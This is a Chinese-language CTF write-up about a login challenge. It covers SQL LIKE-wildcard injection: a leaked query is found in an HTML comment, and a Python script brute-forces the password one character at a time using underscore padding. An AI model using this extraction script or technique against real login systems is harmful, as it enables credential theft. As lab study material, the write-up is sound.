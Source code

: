 右键源代码发现：

```
!--注意：正式上线请删除注释内容！ -->
<!-- username yu22x -->
<!-- SELECT * FROM users where username like binary('$username') and password like binary('$password')-->
```

这里知道了后台执行的sql语句，

like注入。(以前确实没见过。。。菜的过把)

fuzz一下，ban了一些参数，但是下划线 `_` 没 ban

![0Vh5Ed.png](https://s1.ax1x.com/2020/09/28/0Vh5Ed.png)

ike模糊查询可以使用 `%` 匹配多个字符，`_` 匹配单个字符。

脚本生成

```
<?php

for($i=1;$i<50;$i++)
{
	for($j=0;$j<$i;$j++)
		echo "_";
	echo "\n";
}
```

抓包尽心测试。可以看到当用户名为 `yu22x `,密码为 32个下划线的时候页面回显不一致。

	I have filtered all the characters. Why can you come in? get out!

![0V4DsS.png](https://s1.ax1x.com/2020/09/28/0V4DsS.png)

看来只能爆出他的密码。可以burp设置变量慢慢爆，但是。。。太麻烦了。只能借鉴下大佬们的py脚本。(不在抱怨自己不会py写脚本了，还是努力学习把，以后自己写。。。)

```
import requests
import string

strs = string.digits+string.ascii_letters
url = 'http://c87712f7-eb7d-47b2-a7ca-71a14210c71d.chall.ctf.show//login.php'

pwd = ''
for i in range(32):
	print('i = '+str(i+1),end='\t')
	for j in strs:
		password = pwd + j + (31-i)*'_'
		data = {'username':'yu22x','password':password}
		r = requests.post(url,data=data)
		if 'wrong' not in r.text:
			pwd += j
			print(pwd)
			break
```
